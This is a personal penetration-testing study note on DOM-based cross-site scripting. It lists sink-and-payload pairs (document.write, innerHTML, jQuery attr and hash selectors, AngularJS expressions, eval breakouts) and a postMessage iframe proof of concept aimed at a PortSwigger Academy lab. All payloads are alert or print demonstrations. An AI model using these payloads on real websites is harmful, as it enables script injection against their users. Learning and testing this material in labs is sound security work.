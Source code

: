 [[Pentest/Vulns/XSS/XSS|XSS]]
#xss
It's like [[Reflected XSS]], but the payload doesnt go though server.

TODO: more details and examples

**Automated search**: DOM Invader in burp browser extension.

##### How to find
1. Search for entry points like `location.search`. Inject a random payload into it.
2. Grep the response HTML for used payload.
3. Adjust payload to execute it

**sink / payload**:
* `document.write` / `<svg onload=alert(1) />`
* `innerHTMl=` /  `<img src=x onerror=alert(1) />` 
	* or iframe tag bc script tag, svg onload wont work
* [[jquery]] `attr()` / `?returnUrl=javascript:alert(document.domain)`
* jquery `$(location.hash)` / `<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">` 
* `ng-app` / `{{$on.constructor('alert(1)')()}}`
* ```eval('var result = {"results":[],"searchTerm":+payload+"}';')```   /  `\"-alert(1)}//`


**List of sinks**: https://portswigger.net/web-security/cross-site-scripting/dom-based#which-sinks-can-lead-to-dom-xss-vulnerabilities


##### iframe messages example
```js
window.addEventListener('message', function(e) {
	document.getElementById('ads').innerHTML = e.data;
})
```

```html
<iframe style="width: 1000px;height: 500px;" src="https://0a3f00cc04e03997843386a000f0009b.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=x onerror=print() />','*')" />
```




















